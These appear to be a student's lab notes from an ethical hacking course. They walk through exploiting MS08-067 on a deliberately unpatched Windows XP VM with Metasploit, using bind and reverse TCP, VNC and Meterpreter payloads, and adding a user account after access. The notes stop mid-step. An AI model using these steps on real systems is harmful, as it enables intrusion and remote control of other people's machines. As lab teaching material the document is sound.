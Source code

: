 # EHD Practical 10 - Metasploit

###### tags: #EHD 

## Table of Contents
```toc
```

## Setting Up a Target Vulnerable to MS08-067
**On Host PC**
1. Search the Internet for information about the Microsoft Security Bulletin MS08-067 and take note of the 6-digit knowledge base number
2. For this practical, the WinXP VM  is required

**On WinXP VM**
3. Go to the Control Panel and **Add or Remove Programs**
4. Check the box **Show Updates**. The list of installed programs and software updates will be displayed
5. Search the list of security updates for ones containing the Knowledge Base numbers 958644  or 2705219 of the MS08-067 or MS12-054 security bulletins. If the updates are listed on WinXP, remove them and restart the computer

> If not, WinXP is not patched against the MS08-067 vulnerability

6. Go to the Control Panel > Security Center
7. Under Manage Security Settings, select **Windows Firewall** and turn it off. The WinXP is now a vulnerable target

## Using the Metasploit Console
**On Kali VM**
> <u>Activating the Metasploit console:</u>
> - Click the Kali icon > 08 Exploitation Tools > Metasploit framework
> - Run `msfconsole` on the terminal

- To see all possible commands, type `help` at the `msf` prompt
- To see list of exploits, type `show exploits`
	- List of exploits and CVE numbers will be displayed
- To search for exploits related to SMB, type `search smb`
- To search for exploits related to MS08-067, type `search ms08_067`

1. Look for info on the exploit `ms08_067_netapi` and use it
```
info windows/smb/ms08_067_netapi
use windows/smb/ms08_067_netapi
```
2. At the exploit prompt, type `show options`
3. Set a remote host to target (RHOST)
```
set RHOST WinXP-IP
```
4. Type `show options` to view the RHOST set
5. To check which payloads can be used for a certain exploit, type the following command:
```
show payloads
```
6. View info on the payload `windows/shell/bind_tcp` and set it:
```
info windows/shell/bind_tcp
set windows/shell/bind_tcp
```
7. Type `show options` to view the options set for the payload
8. Run the exploit:
```
exploit
```

> If the exploit is successful, a remote connection will be established to the command prompt of the Windows XP VM
> - Run `dir` to list all files on the remote target
> - Type `set` to see list of current environment variables
> - To create a new user: `net user username password /add`

9. To quit from the remote connection, press <kbd>Ctrl</kbd>+<kbd>C</kbd>

## Using Reverse TCP Payload
> In the previous exploit, Kali creates a connection to the unpatched WinXP, but if the firewall on WinXP is enabled, Kali is unable to connect to WinXP
> To address this problem, the payload `reverse_tcp` tells the victim to connect to the attacker (Kali VM) as WinXP as WinXP is the one initiating the connection, hence the firewall will allow it

**On Kali VM**
1. Set the payload to `reverse_tcp`
```
set payload windows/shell/reverse_tcp
```
2. Type`show options` to see the options set
3. Specify the listening host (LHOST) that the victim should connect to
```
set LHOST Kali-IP
```
4. Run the exploit:
```
exploit
```

**On WinXP VM**
5.  On the Command Prompt, type the following to <u>view the connection Metasploit has made to the attacker system:</u>
```
netstat -an
```

## Using VNC Payload
**On Kali VM**
1. Try the exploit with the following payload:
```
set payload windows/vncinject/reverse_tcp
```
2. Type `show options` to see options set
3. Run the exploit
```
exploit
```

## Using Meterpreter
**On Kali VM**
1. Try the exploit with the following payload:
```
set payload windows/meterpreter/reverse_tcp
```
2. Type  `show options` to see options set
3. Run the exploit
```
exploit
```
4. Type `help` at the Meterpreter prompt to see all available commands
5. Type `ps` to see list of processes running on the WinXP VM
6. Type `screenshot` to take a screenshot of the WinXP VM (File is saved to a file on Kali)
7. Type `ifconfig` to list the network interfaces on the WinXP VM
8. To see all possibilities for Meterpreter scripts on Kali, type `run` and press <kbd>Tab</kbd> twice
9. To see all possibilities for Meterpreter extension modules on Kali, 